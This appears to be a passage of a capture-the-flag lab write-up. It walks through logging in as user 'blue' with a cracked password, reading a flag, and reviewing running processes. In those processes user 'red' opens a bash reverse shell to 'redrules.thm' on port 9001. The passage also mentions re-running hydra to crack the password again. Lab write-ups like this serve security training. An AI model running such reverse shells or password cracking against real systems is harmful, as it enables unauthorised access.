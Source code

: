 After that, use the previous password cracked to login to the target server as user `blue` and get the first flag:

```tsx
blue@red:~$ ls -la
total 40
drwxr-xr-x 4 root blue 4096 Aug 14  2022 .
drwxr-xr-x 4 root root 4096 Aug 14  2022 ..
-rw-r--r-- 1 blue blue  166 Jul 22 02:34 .bash_history
-rw-r--r-- 1 blue blue  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 blue blue 3771 Feb 25  2020 .bashrc
drwx------ 2 blue blue 4096 Aug 13  2022 .cache
-rw-r----- 1 root blue   34 Aug 14  2022 flag1
-rw-r--r-- 1 blue blue  807 Feb 25  2020 .profile
-rw-r--r-- 1 blue blue   16 Aug 14  2022 .reminder
drwx------ 2 root blue 4096 Aug 13  2022 .ssh
blue@red:~$ cat flag1 
THM{Is_thAt_all_y0u_can_d0_blU3?}
```

# Privilege Escalation → red

While trying to escalate privilege, you might get this trouble which kicks you out of the machine and automatically changes the password of user `blue`. Don’t worry, just re-run the **********hydra********** to get a new password and login again.

```tsx
blue@red:~$ "red"Say Bye Bye to your Shell Blue and that password
Connection to 10.10.89.217 closed by remote host.
Connection to 10.10.89.217 closed.
```

Then I use `ps -aux` to list all the processes running on the system and found this one.

```tsx
blue@red:~$ ps -aux | grep "red"
red        13308  0.0  0.1   6972  2680 ?        S    01:27   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
red        13353  0.0  0.1   6972  2692 ?        S    01:28   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
```

The above command executed by `red` user which establish a reverse shell to the IP address of `redrules.thm` on port `9001`. Let’s figure out what IP address is assigned to `redrules.thm`:

```tsx
blue@red:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 red
192.168.0.1 redrules.thm

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouter
```
